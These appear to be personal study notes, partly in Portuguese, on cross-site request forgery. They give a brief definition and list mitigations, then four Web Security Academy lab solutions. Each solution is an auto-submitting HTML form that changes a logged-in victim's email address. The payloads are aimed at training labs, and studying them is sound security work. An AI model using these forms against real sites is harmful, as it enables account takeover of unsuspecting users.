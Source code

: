     CSRF Especie de roubo de sessão onde o atacante envia uma requisição para o site para roubar a sessão da vitima logada na plataforma vulnerável.
        Mitigar: 
            Validar origins/refer
            Tokens Anti-CSRF
            Same site flag


    CSRF LAB1

        <form method="POST" action="https://0a4000050342e2ebc16c44f200ad005a.web-security-academy.net/my-account/change-email">

            <input type="hidden" name="email" value="kid@kidman.com.br">

        </form>

        <script>

                document.forms[0].submit();

        </script>


    CSRF LAB2

             <form action="https://0a9800c8032208b9c0972c6b00a10060.web-security-academy.net/my-account/change-email">

            <input type="hidden" name="email" value="kid@web-security-academy.net">

        </form>

        <script>

                document.forms[0].submit();

        </script>

    CSRF LAB3

        <form method="POST" action="https://0a24001a040d1832c04d6ebe00160046.web-security-academy.net/my-account/change-email">

            <input type="hidden" name="email" value="kid@kid.com">

        </form>

        <script>

            document.forms[0].submit();

        </script>

    CSRF LAB4

        <form method="POST" action="https://0a31002303c808cec0c259aa002a0026.web-security-academy.net/my-account/change-email">

            <input type="hidden" name="email" value="kid@kidman.kid.br">

            <input type="hidden" name="csrf" value="rbswpZ8GGVce3npJgKSp1HAD3LW0p2Fl">

        </form>
